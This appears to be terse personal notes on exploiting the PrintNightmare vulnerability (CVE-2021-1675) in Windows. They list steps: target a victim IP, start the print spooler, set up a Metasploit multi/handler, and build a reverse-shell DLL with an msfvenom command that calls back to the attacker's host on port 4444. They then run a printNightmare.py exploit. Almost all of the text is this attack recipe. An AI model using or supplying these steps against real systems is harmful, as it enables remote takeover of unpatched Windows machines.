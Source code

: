 


https://www.youtube.com/watch?v=mhcil49-QJk"


victim ip

start print spooler service (search services)

set up msf multi/handler

msfvenom -f dll -p /windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=4444 -o reverseShell.dll
	
cve-2021-1675 is the exploit py
[[printNightmare.py]]



